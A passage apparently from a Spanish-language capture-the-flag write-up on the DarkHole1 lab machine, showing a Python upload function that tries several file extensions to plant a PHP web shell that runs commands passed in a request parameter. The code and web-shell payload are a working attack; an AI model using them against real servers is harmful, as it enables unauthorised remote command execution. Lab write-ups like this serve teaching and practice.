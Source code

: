 ```py
def upload():

    for ext in extensions:

        payload = """  <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?> """ 

        files  = {'fileToUpload':(f'shell{ext}',payload)

            }

        r = s.post(url,files=files)
```

Al ejecutar este código, nos vamos a ver las uploads:

![](/imagenes/DarkHole1/darkhole1_17.png)
